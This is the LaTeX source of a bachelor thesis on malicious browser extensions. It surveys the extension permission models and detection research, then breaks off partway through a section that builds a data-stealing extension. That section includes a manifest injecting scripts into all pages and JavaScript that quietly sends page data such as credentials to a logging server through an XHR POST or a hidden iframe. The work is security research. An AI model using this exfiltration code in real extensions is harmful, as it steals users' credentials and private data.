% !TeX spellcheck = en_US
\documentclass[article,colorback,accentcolor=tud9c,type=bsc]{tudthesis}
\usepackage{listings}
\usepackage{array}
\usepackage{url}
\usepackage{float}

\let\stdsection\section
\let\stdsubsection\subsection
\let\stdsubsubsection\subsubsection
\renewcommand\section{\newpage\stdsection}
\renewcommand\subsection{\newpage\stdsubsection}
\renewcommand\subsubsection{\newpage\stdsubsubsection}

\newfloat{code}{h}{codeextracts}
\floatname{code}{Code Extract}

\newfloat{listing}{h}{enumerates}
\floatname{listing}{List}

\begin{document}
	
	\thesistitle{Thesis}{Thesis}
	\author{Arno Manfred Krause}
	\referee{Referee 1}{Referee 2}
	\department{Fachbereich Informatik}
	\group{cased}
	%	\makethesistitle
	%	\affidavit{Arno Krause}
	
	%	\tableofcontents
	\newpage
	
\section{Abstract}
	
	Browser extensions are widely used today to enhance the way end users interact with the Internet. They can access data from the user by using interfaces provided by the browser. This can be misused to violate their privacy or manipulate the content of a web page in a malicious way. In this work we analyze the possibilities to integrate malicious behavior in extensions. First, we take a look which interfaces the browser provides to the extensions and whether and, if so, how the access is restricted. Using this knowledge, we develop and implement extensions with malicious behavior that uses the provided functionality. We examine popular extensions and what parts of the interfaces they use. Then, show that we can integrate parts of our previously implemented behavior into them. Finally we describe ways to improve the privacy of those susceptible extensions by limiting the possibilities to integrate malicious behavior.	
	
\section{Introduction}
	
	It is impossible to think about our modern society without the use of web browsers. They represent the connection to the Internet, the biggest until now created information distribution system. Even a person in far reaches can access the newest global information using a browser and the world wide web. There are different ways to deliver the information to the user, such as plain text, embellished web pages, or video and audio streams. The browser then displays these information and allows the user to send information himself back to the origin or other web services. But browsers are limited. The content they are displaying is largely dictated by the web service's author. The best example here are advertisements. The user often does not wish to see them, but the author gets profit from displaying them. It is unreasonable to ask the author to remove his source of gainings. Another example is the design of a web page that is fixed by the developer and the user can only change it, if the developer has implemented the option to do so. To overcome the limitations and to enhance the way the end user interacts with the Internet, most browsers support the use of extensions. These are small programs that add new functionality to the browser by changing the look and the behavior of the browser itself and the web pages that are loaded. Of course, changing the content of a browser itself distinguishes depending on what user interfaces the browser provides. To change the content of a web page the browser grants the extension access to the web pages \textit{Document Object Model (DOM)}. The DOM is a standardized interface for accessing and updating the content, structure, and style of a HTML or XML document \footnote{World Wide Web Consortium DOM specification: \url{http://www.w3.org/DOM/}}. It is implemented by most browsers and allows script languages such as JavaScript to access the web page's content \cite{domBrowserCompatibility}. The browser exposes additional functionality to its extensions, giving an extension a bigger scope of actions as a normal script inside a web page has. For example can an extension use the standardized \textit{XMLHttpRequest (XHR)} \footnote{World Wide Web Consortium XHR specification: \url{http://www.w3.org/TR/XMLHttpRequest/}}. XHR is an interface for JavaScript to transmit data using the HTTP protocol. It is used by web pages to fetch additional data from a server. In doing so, a web page underlies the \textit{Same Origin Policy (SOP)} that prohibits an embedded script to access any server other than the pages origin. An extension is not restricted by the \textit{Same Origin Policy}. The opposite would be impractical because the extension is located on the user's host machine and thereby would have only access to local resources. \\
	All these features that the browser provides to its extensions are necessary for the extension's purpose but they also open the door for malicious behavior and privacy violations. In this work we analyze what malicious behavior is possible to implement in browser extensions. 
	\begin{itemize}
		\itemsep-5px
		\item First, we list what extensions can do in general. We describe the extension model used by Chrome, Opera, and Firefox and the old model for Firefox.
		\item We show implementations of malicious extensions. 
		\item We analyze current top Chrome extensions for being over privileged in terms of the used permission model and show that we can integrate malicious behavior into them.
		\item We describe ways to improve the privacy of founded susceptible extensions. 
		\item Finally, we describe existing models to increase the privacy of extensions in general. 
	\end{itemize}
	
	
\section{Extension Architecture}
	
	The extension models we analyzed have a common base structure. They are implemented in the web technologies JavaScript, HTML and CSS and consists of two parts: The extension's core logic that interacts with the browser and so called \textit{content scripts} that interact with the web page. The extension's core logic is stored inside a single HTML page with embedded JavaScript that implements the behavior. This page is active in the background while the browser is running. It has access to the browser's API that provides additional features such as the access to the browsers tab system or to read the user's bookmarks or web history. Each browser also provides user interfaces to the extension which are mostly buttons in the browser's tool-bars, pop-up HTML pages, or entries in the context menu. \\
	To interact with a web page \textit{content scripts} are executed in the scope of the web pages DOM. They behave like JavaScript which is embedded inside a HTML page, means they have access to the web pages DOM via the \texttt{window.document} object. This allows them to manipulate the DOM tree or change the pages reaction to user input. The injection of content scripts inside a web page is restricted by URL pattern. These are matching pattern that use wildcards to match several web pages at once. For example, a content script with the URL pattern \texttt{http://*.example.com/*} would be injected into the pages \texttt{http://api.example.com/} and \texttt{http://www.example.com/foo} but not into the pages \texttt{https://www.example.com/} and \texttt{http://www.example.org/}. The content script is separated from the extension's core. It can not directly access functions on the extension's core but only exchange messages over a string based channel. It has also almost no access to the browser's API. The range of exposed functions differs between the browsers. \\ 
	A further separation exists between the web page and each injected content script. Each script and the web page runs in its own JavaScript heap with its own DOM object. Consequently, content scripts among each other and the web page can not access each other. Both the web page's script and the content script have access to the variable \texttt{window.document}, but these variables refer to separate JavaScript objects that represent the underlying DOM. If one script now calls a DOM-specific method, such as \texttt{createElement()}, the underlying the DOM and both objects are updated accordingly. However, if a script modifies a non-standard DOM property, such as \texttt{document.bar}, it is not transfered to the DOM and therefore not to the other object, too. The web page and a content script can communicate with each other by using the DOM specific function \texttt{window.postMessage}. The function fires an event which then can be read by an event listener.
	
\subsection{Multi Browser Extensions}
	
	In 2009, Google introduced a new extension model for its Chrome browser. 4 years later, the developer of the Opera browser decided to change their browser framework to Chromium \cite{operaBlogSwitchToChromium}. By adapting the same underlying framework as Chrome, Opera also adapted the extension model. It became possible to use the same extension on both browsers. The Mozilla developers took the chance to expand the utilization of cross browser extensions and integrated Chrome's extension model into Firefox \cite{mozillaBlogWebExtension}. \\
	The model was created accordingly to the proposal from Barth et al. \cite{Barth10protectingbrowsers}. In his work he investigated the old extension model of Mozilla's Firefox and revealed many vulnerabilities in connection to Firefox extensions running with the user's full privileges. This enables the extension to access arbitrary files and launch new processes. He proposed an new model with a strict separation of an extension's content and an permission system that to make it more difficult for an attacker to gain access to the user's machine. \\ 	
	%TODO mention isolated world
	The permission model is designed to limit the danger from benign-but-buggy extensions \cite{Barth10protectingbrowsers}. It is assumed that most extensions are developed by non professional developers who might implement an attack vector by mistake. The permissions should prevent the leak of privileged functions in the case that the extension is compromised. For that purpose the model is build on the principle of least privilege. The access to any API module is disabled by default and only enabled if appropriate permissions are set. The developer should only declare permissions that are necessary for his extension's legitimate purpose. In the case that the extension is compromised the attacker can only use the declared functionality at runtime. Cross-origin access is also restricted by permissions. Although extensions are not bound to the \textit{Same Origin Policy}, Chrome disables requests to remote servers if no appropriate host permission is declared. Equal to content scripts, host permissions take an URL pattern to match several hosts at once. Both type of permissions are declared in the extension's mandatory \textit{manifest} file as seen in Figure 1. Some permissions trigger a warning when a user installs the extension. For example results a host permission in a warning that the extension can read and modify the user's data on the host's web page. Warnings also show up if an extension is updated and its permission's have changed. \\
	
	\lstset{
		numbers=left,
		xleftmargin=2em
	}
	\lstinputlisting{lib/manifest.json}
	
	Figure 1: Example of a manifest. It shows an extension with two injected scripts and a corresponding host pattern. The extension uses one JavaScript file as its non persistent background page and requests access to two API modules and one cross-origin. Finally, it defines its own Content Security Policy. \\ \\
	
	There are two kinds of background pages: Persistent background pages that are active all the time and non-persistent background pages also called \textit{event pages} that are only active if needed. The browser loads the event page if a task has to be performed and unloads it as soon as the task is finished. This behavior saves memory and resources, consequently giving a better performance. The event page is triggered if the extension is installed or updated so that the background page can register for events, an registered event is dispatched, or an other script accesses the event page. \\
	Both kinds of background page underly a \textit{Content Security Policy (CSP)} \footnote{World Wide Web Consortium CSP2 specification: \url{http://www.w3.org/TR/CSP2/}}. CSP is a web security policy intended to prevent potential content injection attacks. The developer controls the resources the web page loads and executes by listing trusted sources. This is intended as a deeper defense layer to reduce the harm a malicious injection could do, but it is no replacement for a first defense layer such as an input validation or output encoding. The CSP for the extension's background page holds three default rules:
	\begin{itemize}
		\itemsep0em 
		\item JavaScript embedded in the background page with an origin different from the extension's installation is disabled.
		\item Inline JavaScript such as \texttt{<script>} tags or \texttt{onclick="function()"} event handler are disabled.
		\item The use of \texttt{eval} and related functions such as \texttt{setTimeout()} and \texttt{setInterval()} are disabled.
		\footnote{The JavaScript function \textit{eval} is considered dangerous. It executes the given string as a new JavaScript process that has the privileges of the calling process. If the given input can be affected by a third party, it would open a possibility for a content injection attack \cite{mozillaDangerousEval}.}  
	\end{itemize}
	The developer can either relax these policies if his extension needs to use some of the disabled functionality or even tighten them in order to increase the security. Figure 1 shows an example for a CSP. The key \texttt{"default-src 'none'} tightens the policy by disabling resources from any source. Controversial, the second key \texttt{script-src 'self' 'unsafe-eval'} allows to uses script from withing the extension's installation and relaxes the policy by allowing the use of \textit{eval} inside the loaded script. \\
	
	The following list is an extract of the provided API modules with associated permissions and which browser currently supports them. Firefox and Opera are still developing their implementation of the API. The whole lists are found on the developer platforms \cite{chromeDevApiList, operaDevApiList, mozillaDevApiList}. The list is filtered based on modules that provide functionality which can be misused in some form. \\
	
	\renewcommand{\arraystretch}{1.5}
	\begin{tabular}{lp{0.5\textwidth}p{0.26\textwidth}}
		\textbf{Module} & \textbf{Description} & \textbf{Potential Risk} \\ 
		\hline
		
		\textit{activeTab} & Gives the extension temporary access to the active tab only if the user invokes the extension - for example by clicking on a button. This permission is suggested for extensions that otherwise would need full, persistent access to every web page to act if invoked by the user. The activeTab permission grants temporary the \textit{tabs} permission without the need to declare it in the manifest. Not supported by Firefox. &  \\
		
		\textit{background} & If one or more extensions with the background permission are active, the browser runs invisible in the background starting with the user's login. This behavior is only implemented in Chrome and can be disabled generally in Chrome's configuration. & A malicious extension still acts after the browser window is closed. \\
		
		\textit{bookmarks} & Gives read and write access to the user's bookmarks. Only partially supported by Firefox. & Get information about preferred web pages or change the URL of a bookmark to a malicious web page. \\
		
		\textit{contentSettings} &	Allows the extension to overwrite the settings that control whether a web page can use features such as cookies, JavaScript, and plugins for particular web pages. Not supported by Firefox. & Reactivate settings that the user has explicitly deactivated on particular, maybe malicious web pages. For example the location tracking. \\
		
		\textit{cookies} & Gives the extension read and write access to all cookies even to \textit{httpOnly} cookies that are normally invisible to client-side JavaScript. Only partially supported by Firefox. & Steal the users session and authentication data that is mostly stored inside cookies. \\
		
		\textit{downloads} & With this module the extension can initiate, monitor or manipulate downloads. If the file is labeled as dangerous the browser prompts the user to accept the download \cite{chromeMaliciousDownloads}. Not supported by Firefox. &  \\
		
		\textit{geolocation} & Gives the extension access to the HTML geolocation API\footnote{World Wide Web Consortium Geolocation API specification: \url{http://www.w3.org/TR/geolocation-API/}} without prompting the user for permission. Not supported by Firefox and Opera. & Silently track or identify the user. \\
		
		\textit{management} & The extension can list, disable or uninstall other extensions with this module. If an other extension should be uninstalled the user is prompted to accept. Only partially supported by Opera and not supported by Firefox. & Silently disable privacy preserving extensions such as \textit{Adblock} or \textit{NoScript}. \\
		
		\textit{privacy} & The extension can request to change the browser's privacy settings. The request will be denied if an other extension uses the setting or the access is denied by default. Not supported by Firefox. & \\
		
		\textit{proxy} & Allows the extension to manipulate the browser's proxy settings. Not supported by Firefox. & Send user's requests through a malicious proxy like a server that tracks all requests. \\
		
		\textit{system} & Provides information about the user's host machine. Not supported by Firefox. & Create a profile to identify the user based on information such as the kernel or display name. \\
		
		\textit{tabs} & Gives access to the browser's tab system. Allows to create and close tabs, to inject scripts, and to connected to running content scripts inside a tab. Only partially supported by Firefox and Opera. & Prevent the user from uninstalling the extension by closing the extension management tab. Inject other scripts than the declared content scripts, even remote received. \\
		
		\textit{webRequest} & Gives access to events fired by the life cycle of a web request. Allows to observe, intercept or manipulate web requests. Only partially supported by Firefox. & Request data can be read and redirects executed. \\  	 	
		
	\end{tabular}
	\renewcommand{\arraystretch}{1}
	
	The activeTab permission and the event pages do not only give a better performance but do also improve the security. If the extension is compromised the attacker would need to wait until the extension is active before obtaining access and would loose the access when the extension is unloaded. On the other hand if the extension itself is malicious it gets restricted in its actions to only act if the user invokes it. \\
	
	Chrome distributes its extensions over the Chrome Web Store\footnote{Chrome Web Store: \url{https://chrome.google.com/webstore/category/extensions}}. The installation of extensions from remote servers was disabled because this mechanism was often misused to install malicious extensions \cite{chromeProtectFromMalicious}. To further restrict the distribution of malicious extensions, Google added a registration fee for developers \cite{chromeWebStoreFee}. The developer has to add a credit card to his Google account. This allows Google to better identify the developer and it discourages possible malicious developers. Opera has its own web store, too \footnote{Opera Web Store: \url{https://addons.opera.com/en/}}. Anyone can commit a new extension which is then reviewed by Opera's developers. The extension is only published if it matches the acceptance criteria. Those range from correct execution over guidelines for adequate design to privacy preserving measures \cite{operaSecurityReviewAcceptance}. Extensions in the multi-browser model are currently not published for Firefox \cite{mozillaWebExtensionStatus}.
	
\subsection{Firefox ADD-ONs}
	
	Mozilla just started implementing the extension model \cite{mozillaBlogWebExtension}. The model is currently not released to Firefox and those extensions are not publicly distributed \cite{mozillaWebExtensionStatus}. Current extensions for Firefox are called \textit{add-ons} and are build with the browsers native technologies. This allows an add-on to use any feature that the browser can use. Mozilla distributed a JavaScript framework for building their add-ons that operates on the modules system defined by the \textit{CommonJS}\footnote{CommonJS Wiki Modules specification: \url{http://wiki.commonjs.org/wiki/Modules/1.1.1}} module format. This allows to resign from the native technologies and focus the development on web technologies. The framework handles the interaction with the native technologies, consequently keeping the access to the browser's features. If an add-on uses those features, it is automatically registered for an extra security review by Mozilla \cite{mozillaDevChromeAuthority}. \\
	The framework uses a \textit{package.json} file that manages the add-on's content similar to the extension's manifest file. Firefox add-ons do not have a permission system comparable to the permissions of the extension model. There is however a \textit{permission} section in the package file. But it only holds three keys: The first indicates whether or not the add-on can access private browsing windows. The second is a list of fully qualified domain names which can be accessed by content scripts. And the third indicates whether or not the add-on is compatible with the multiprocess version of Firefox. \\
	
	The following list shows an extract of the functionality provided to an add-on filtered on possible privacy risks. The full list of modules can be found on Mozilla's developer network \cite{mozillaDevHighLevelApiList, mozillaDevLowLevelApiList} 
	\begin{itemize}
		\item Access Firefox's built-in password manager.
		\item Access users data like bookmarks, favorite web pages, or history.
		\item Read content from URIs and use XMLHttpRequests \cite{w3cXMLHttpRequest}.
		\item Firefox provides a long list of events for which an add-on can register \cite{mozillaDevSystemEvents}.
		\item Read an write environment variables.
		\item Get technical information about the user's host machine.
		\item Access the users file system using the native interfaces.
	\end{itemize}
	
	Firefox uses an internal privilege system to restrict the access of remote JavaScript code. They differentiate between trusted \textit{chrome} code and untrusted \textit{content} code. Chrome code is everything that comes from the browser itself. Its own JavaScript that interacts with the underlying C++ core and add-ons that have access to the browser's API. On the other hand is everything that is loaded from the web classified as content. Objects in a higher privileged scope have full access to other objects in a less privileged scope. But by default they only see the native object without any modifications by the less privileged code. This prevents the higher level code to be tricked with modified functionality by untrusted code. Contrary, less privileged code can not access higher privileged code. In addition to the two main privilege levels, chrome code can generate sandboxes and determines its privilege level and its access to certain objects. Thereby it is possible to give a piece of JavaScript fine grained access to needed functionality without exposing security relevant functions and still protect it from access by less privileged code. For example, content scripts are executed inside a sandbox with certain privileges over content code. Thereby it is protected from direct access by the web page's code and can only see the web page's unmodified DOM. But it has still less privileges than chrome code and can therefore not access the add-on's core or the browser's API. \\
	Firefox uses a security mechanism to prevent an attacker that has compromised an add-on to access submodules that are not explicit requested inside the add-on. On compiling the add-on, a scanner lists all requests to modules inside the add-on's code. The runtime loader will actually prevent the loading of modules that are not listed. This prevents an attacker to use further modules and more privileged functions at runtime. \\
	
	Mozilla distributes add-ons for Firefox over their own web store\footnote{Firefox Web Store: \url{https://addons.mozilla.org/en-US/firefox/}} but also allows the installation from private web pages. Add-ons published over the web store are target to an security review \cite{mozillaDevReviewPolicy}. After passing the review the add-on is signed by Mozilla what is shown on installation. Similarly, if an add-on is published private it is labeled as untrusted on installation. 
	
	%\subsection{Safari Extension}
	%
	%	Safari provides an integrated environment for developing extension. The \textit{Extension Builder} is a build-in user interface where the developer can add files and set properties. The provided API for extensions is limited. It only allows the interaction with browser tabs. There is no support to access user data such as bookmarks or the web history. Safari extensions can only focus on DOM related functionality. \\
	%	The Extension Builder provides a special feature to block content. A list of \textit{Content-Blocking Rules} are compiled into a bytecode format and processed directly at runtime. Making the programmatically examination of content and determination of blocking unnecessary and therefore providing a better performance \cite{safariContentBlockingRules}. \\
	%	Safari's first level security for extension is implemented by certificates. Only registered developers can install a certificate for their extension. Safari disables extensions if the installed certificate is invalid. This should ensure that the extension's origin is known to Apple. It does not prevent the developer to add malicious behavior in his extension.
	
	
\section{Related Works}
	
	Nicholas Carlini et al. evaluated the three security principles of Chrome's extension architecture: \textit{isolated world}, \textit{privilege separation} and \textit{permissions} \cite{Carlini:2012:EGC:2362793.2362800}. They reviewed 100 extensions and found 40 containing vulnerabilities of which 31 could have been avoided if the developer did follow simple security best practices. Those are using HTTPS instead of HTTP and the DOM function innerText that does not allow inline scripts to execute instead of innerHtml. Evaluating the isolated world mechanism, they found only three extensions with vulnerabilities in content scripts; two due to the use of eval. Isolated world effectively shields content scripts from malicious web pages, if the developer does not implement explicit cross site scripting attack vectors. Privilege separation should protect the extension's background from compromised content scripts but is rarely needed because content scripts are already effectively protected. They discovered that network attacks are a bigger thread to the extension's background than attacks from a web page. An attacker can compromise an extension by modifying a remote loaded script that was fetched over an HTTP request. The permission system acts as security mechanism in the case that the extension's background is compromised. Their review showed that developers of vulnerable extensions still used permissions in a way that reduced the scope of their vulnerability. To increase the security of Chrome extensions, Carlini et al. proposed to ban the loading of remote scripts over HTTP and inline scripts inside the extension's background. They did not propose to ban the use of eval in light of the facts that eval itself was mostly not the reason for a vulnerability and banning it would broke several extensions. 
	
	\textit{Hulk} is an dynamic analysis and classification tool for chrome extensions \cite{184485}. It categorizes analyzed extensions based on discoveries of actions that may or do harm the user. An extension is labeled \textit{malicious} if behavior was found that is harmful to the user. If potential risks are present or the user is exposed to new risks, but there is no certainty that these represent malicious actions, the extension is labeled \textit{suspicious}. This occurs for example if the extension loads remote scripts where the content can change without any relevant changes in the extension. The script needs to be analyzed every time it is loaded to verify that it is not malicious. This task can not be accomplished by an analysis tool. Lastly an extension without any trace of suspicious behavior is labeled as \textit{benign}. Alexandros Kapravelos et al. used Hulk in their research to analyze a total of 48,322 extensions where they labeled 130 (0.2\%) as malicious and 4,712 (9.7\%) as suspicious. \\
	Static preparations are performed before the dynamic analysis takes action. URLs are collected that may trigger the extension's behavior. As sources serve the extension's code base, especially the manifest file with its host permissions and URL pattern for content scripts, and popular sites such as Facebook or Twitter. This task has its limitation. Hulk has no account creation on the fly and can therefore not access account restricted web pages. \\
	The dynamic part consists of the analysis of API calls, in- and outgoing web requests and injected content scripts. Some calls to Chrome's extension API are considered malicious such as uninstalling other extensions or preventing the user to uninstall the extension itself. This is often accomplished by preventing the user to open Chrome's extension tab. Web requests are analyzed for modifications such as removing security relevant headers or changing the target server. To analyze the interaction with or manipulation of a web page Hulk uses so called \textit{honey pages}. Those are based on \textit{honeypots} which are special applications or server that appear to have weak security mechanisms to lure an attack that can then be analyzed. Honey pages consists of overridden DOM query functions that create elements on the fly. If a script queries for a DOM element the element will be created and any interaction will be monitored. \\
	
	\textit{WebEval} is an analysis tool to identify malicious chrome extensions \cite{190984}. Its main goal is to reduce the amount of human resources needed to verify that an extension is indeed malicious. Therefore it relies on an automatic analysis process whose results are valuated by an self learning algorithm. Ideally the system would run without human interaction. The research of Nav Jagpal \textit{et al}. shows that the false positive and false negative rates decreases over time but new threads result in a sharp increase. They arrived at the conclusion that human experts must always be a part of their system. In three years of usage WebEval analyzed 99,818 extensions in total and identified 9,523 (9.4\%) malicious extensions. Automatic detection identified 93.3\% of malicious extensions which were already known and 73,7\% of extensions flagged as malicious were confirmed by human experts. \\
	In addition to their analysis pipeline they stored every revision of an extension that was distributed to the Google Chrome web store in the time of their research. A weakly rescan targets extensions that fetch remote resources that can become malicious. New extensions are compared to stored extensions to identifying near duplicated extensions and known malicious code pattern. WebEval also targets the identification of developer who distribute malicious extensions and fake accounts inside the Google Chrome web store. Therefore reputation scans of the developer, the account's email address and login position are included in the analysis process.  \\
	The extension's behavior is dynamically analyzed with generic and manual created behavioral suits. Behavioral suits replay recorded interactions with a web page to trigger the extension's logic. Generic behavioral suits include techniques developed by Kapravelos	et al. for Hulk \cite{184485} such as \textit{honeypages}. Manual behavioral suits test an extension's logic explicit against known threads such as to uninstall another extension or modify CSP headers. In addition, they rely on anti virus software to detect malicious code and domain black lists to identify the fetching of possible harmful resources. If new threads surface WebEval can be expanded to quickly respond. New behavioral suits and detection rules for the self learning algorithm can target explicit threads. \\
	
	Mike Ter Louw et al. evaluated Firefox's Add-on model with the main goal to ensure the integrity of an extension's code \cite{TerLouw:2007:EWB:1420581.1420583}. They implemented an extension to show that it is possible to manipulate the browser beyond the features that Firefox provides to its extensions. They used this to hide the extension completely by removing it from Firefox installed extensions list and injecting it into an presumably benign extension. Furthermore, their extension collects any user input and data and sends it to an remote server. The integrity of an extension's code can be harmed because Firefox signs the integrity on the extension's installation but does not validate it on loading the extension. Therefore, an malicious extension can undetected integrate code into an installed extension. To remove this vulnerability Ter Louw et al. proposed user signed extensions. On installation the user has to explicit allow the extension which is then signed with a hash certificate. The extension's integrity will be tested against the certificate when it is loaded. To protect the extension's integrity at runtime they added policies on a per extension base such as to disable the access to Firefox's native technologies. \\ 
	
	An approach similar to the policies from Ter Louw et al. was developed by Kaan Onarlioglu et al. \cite{cs2015sentinel}. They developed a policy enforcer for Firefox Add-ons called \textit{Sentinel}. Their approach adds a runtime monitoring to Firefox for accessing the browser's native functionality and acts accordingly to a local policy database. Additional policies can be added by the user which enables a fine grained tuning and to adapt to personal needs. The disadvantage is that the user needs to have knowledge about extension development to use this feature. The monitoring is implemented by modifying the Add-on SDK. They modified those JavaScript modules that interact with the native technologies by adding wrappers that execute the policies. \\
	
	\textit{VEX} is a static analysis tool for Firefox Add-ons \cite{Bandhakavi:2011:VBE:1995376.1995398}. Sruthi Bandhakavi et al. analyzed the work flow of Mozilla's developers who manually analyze new Firefox Add-ons by searching for possible harmful code pattern. They implemented VEX to extend and automatize the developer's search and minimize the results. VEX uses information flow pattern based on graph system to detect vulnerabilities. They created pattern for possible cross site scripting attacks with \textit{eval} or the DOM function \textit{innerHtml} and Firefox specific attacks that exploit the improper use of \textit{evalInSandbox} or wrapped JavaScript objects. More vulnerabilities can be covered by VEX by adding new flow pattern. A crucial limitation is that VEX targets only buggy Add-ons without harmful intent or code obfuscation. \\
	
	Oystein Hallaraker et al. developed an auditing system for Firefox's JavaScript engine to detect malicious code pieces \cite{Hallaraker:2005:DMJ:1078029.1078861}. The system logs all interaction JavaScript and the browser's functionalities such as the DOM or or the browser's native code. The auditing output is compared to pattern to identify possible malicious behavior. Hallaraker et al. did not propose any mechanism to verify that detection results are indeed malicious. The implemented pattern can also match benign code. Their work targets JavaScripts embedded into web pages. Applying their system to extensions could be difficult, because extensions do more often call the browser's functionalities in an benign way due to an extension's nature. \\
	
	Philipp Vogt et al. developed a system to secure the flow of sensitive data in JavaScript browsers and to prevent possible cross site scripting attacks \cite{ndss2007xss} . They taint data on creation and follow its flow by tainting the result of every statement such as simple assignments, arithmetical calculations, or control structures. For this purpose they modified the browser's JavaScript engine and also had to modify the browser's DOM implementation to prevent tainting loss if data is temporarily stored inside the DOM tree. The dynamic analysis only covers executed code. Code branches that indirect depend on sensitive data can not be examined. They added a static analysis to taint every variable inside the scope of tainted data to examine indirect dependencies. \\
	The system was designed to prevent possible cross site scripting attacks. If it recognizes the flow of sensitive data to an cross origin it prompts the user to confirm or decline the transfer. An empirical study on 1,033,000 unique web pages triggered 88,589 (8.58\%) alerts. But most alerts were caused by web statistics or user tracking services. This makes their system an efficient tool to control information flow to third parties. The system could be applied to extensions for the same purpose and as security mechanism to prevent data leaking in buggy extensions. \\
	
	\textit{Sabre} is a similar approach to the tainting system from Vogt et al. but focused on extensions \cite{Dhawan:2009:AIF:1723192.1723250, ndss2007xss}. It monitors the flow of sensitive information in JavaScript base browser extensions and detects modifications. The developers modified a JavaScript interpreter to add security labels to JavaScript objects. Sabre tracks these labels and rises an alert if information labeled as sensitive is accessed in an unsafe way. Although their system is focused on extensions it needs access to the whole browser and all corresponding JavaScript applications to follow the flow of data. This slows down the browser. Their own performance tests showed an overhead factor between 1.6 and 2.36. A further disadvantage is that the user has to decide if an alert is justified. The developer added a white list for false positive alarms to compensate this disadvantage.  
	
\section{Malicious Extension}
	
	In this section we focus on what harmful actions can be performed by a malicious extension. For that purpose we show attacks that can be implemented using an extension. Our focal point lies on the multi-browser extension model. We show what permissions are necessary to perform these actions. \\ 
	
	\begin{enumerate}
		\item Steal data from the current displayed web page.
		\item Track the user between websites.
		\item Identify the website's current user. 
		\item Misuse the user's browser to launch attacks.
	\end{enumerate} 
	
\subsection{Data Theft}	
	
	A user operating in the Internet often arrives at situations where he transmits sensitive information to a trusted server or receives them on request. The term "sensitive" is not bound to specific information but rather describes a class of information which is important in the current context. In our context - where we are concerned with stealing information from web pages - "sensitive" describes values that are stored inside a web page and may be misused in some form by an attacker. Some examples of data valuable for an attacker are credentials, credit card numbers, addresses, social security numbers, or identity numbers. If an attacker obtains these information he will certainly harm the user and enrich himself to the detriment of the robbed user. \\
	
	A cryptographic secured communication channel is often used when sensitive information are transmitted over the Internet. This hampers attackers who try to intercept the communication and steal the information. Therefore, web criminals seek to steal the desired information directly from the browser before any cryptography mechanism is applied. The attacker has to gain control over the user's browser to access the information stored inside a displayed web page. \\
	
	In the following section we show that an extension is an efficient tool to steal sensitive information from displayed web pages. We implemented several content scripts that steal information from different occurrences and with different strategies. Once installed, our extension read the displayed web pages, extracted valuable information, and sent these to an remote server. For that purpose it needs the following manifest file:
	
	\begin{lstlisting}
	{
"manifest_version": 2,
"name": "StealData",
"description": 
"Extension that steals data from the currently visible web page. 
Sends data to http://localhost:3000/log",
"version": "1.0",
"content_scripts" : [
  { 
    "matches": [ "http://*/*", "https://*/*" ],
    "js" : ["jquery.js", "content.js"] 
  }
]
	}
	\end{lstlisting}
	
	Our manifest declares besides the necessary extension information only two content scripts which are executed in every web page. The first content script \texttt{jquery.js} is an instance of the popular JavaScript library \textit{jQuery} \footnote{jQuery homepage \url{https://jquery.com/}} which we use to simplify the interaction with the web page's DOM. The second content script \texttt{content.js} is one of our own implementations that steals sensitive information.
	
	\subsubsection{Send Data}
	
	If we want steal data from a web page from inside the user's browser we first have to consider how to send the data to a remote server. Otherwise the data can not be labeled as "stolen". An extension is able to transfer data with a XMLHttpRequest to any host if it has proper host permissions declared. We, as an attacker, want to remain anonymous. Therefore, we do not want to reveal the remote server in the extension's manifest and hence use host permissions that match any host such as \texttt{"http://*/*", "https://*/*"} or \texttt{<all\_urls>}. The following code snippet shows how we send a message with an XHR to our remote server. \\ %TODO mention statistic about host permission usage from analyze
	
	\begin{lstlisting}
var xhr = new XMLHttpRequest();
xhr.open('POST', 'https://localhost:3001/log', true);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send(message);
	\end{lstlisting}
	
	First, we create a new XHR-object. Then, we open a connection to our remote server with a POST request. We set the correct content type of our request in order that our server is able to decrypt the request's parameter body. And finally, we send our message. \\
	
	For our extensions we decided against using XMLHttpRequests with proper host permissions to transfer the data. It is possible to achieve the same using only a content script without the need for any host permissions. For that purpose, we use the mechanics of an \textit{iframe} element. It's task is to display a web page within a web page. The displayed web page is defined by the URL stored inside the iframe's \textit{src} attribute. If the URL changes, the iframe reloads the web page. The Same Origin Policy creates a boundary between the iframe and it's parent web page. It prevents scripts to access content that has another origin as the script itself. If the web page inside the iframe comes from another domain as the parent web page, the iframe's JavaScript can not access the parent web page. The same applies in reverse. In conclusion, if we manipulate the target URL of an iframe, we are able to send data to our remote server. It may look like we can not receive any data in return because the Same Origin Policy blocks our content script to access the iframe. But we are able to bypass the policy using the \textit{Window.postMessage()} method. It allows us to exchange messages between the iframe and our content script. We implemented a method \texttt{send()} that transfers our data with the described strategy: \\
	
	\begin{lstlisting}
var iframe = document.createElement('iframe');
iframe.setAttribute('style', 'display: none;');
document.body.appendChild(iframe);
	
function send(data) {
	data += "&url=" + encodeURIComponent(window.location.href);
	iframe.setAttribute('src', 'https://localhost:3001/log?' + data);
}
	\end{lstlisting}
	
	In the first three lines, we create a new iframe element, turn it invisible by setting it's \texttt{style} attribute, and append it to the web pages body element. In line 5 we define the method \texttt{send(data)} that takes a string as parameter encoded in the standard URL parameter notation \footnote{World Wide Web Consortium URL specifications: \url{https://url.spec.whatwg.org/}}. For example: \texttt{username=some@mail.net\&password=Abcd1234}. Inside the method, we append the current web page's URL to the outgoing data to later identify the data's origin. And finally on line 7, we set the \texttt{src} attribute of our previously created iframe to the URL of our remote server and add the data as parameters. At this point it is important that the data string is encoded correctly. Otherwise, the receiving server could not correctly decode the request URL. \\
	
	While developing this code section we discovered some important requirements for our method to work. If the web page that is targeted by the iframe is secured by the \texttt{https} scheme, an unsecured request with \texttt{http} will be blocked as security prevention. On the other hand, if the web page is unsecured, a secured request is not blocked. Therefore, we use a remote server with a secured connection. But this opens another problem. Our remote server needs a valid SSL certificate. Otherwise the browser blocks the secured request. The certificate contains information about the owner. Transmitting it to the user would reveal the attackers identity. How to get a valid SSL certificate without or with fake information is off topic for our paper. To test our implementation, we used a self signed certificate and registered it manually in the browser. \\
	
	\subsubsection{Steal Data From A Web Page}
	
	A web page that the user requests from a server may contain sensitive information. An extension with an active content script inside the displayed web page is able to extract these information. Finding the exact location of the targeted information inside the web page is a non-trivial procedure. The location depends on the web page's HTML structure which differentiates from page to page. Therefore, a content script is only able to target specific information in a specific web page. \\
	
	Figure 1 shows an example of a bank web page with information about the user's accounts. We implemented a content script that targets exactly our example web page and steals the displayed information: 
	
	\begin{lstlisting}
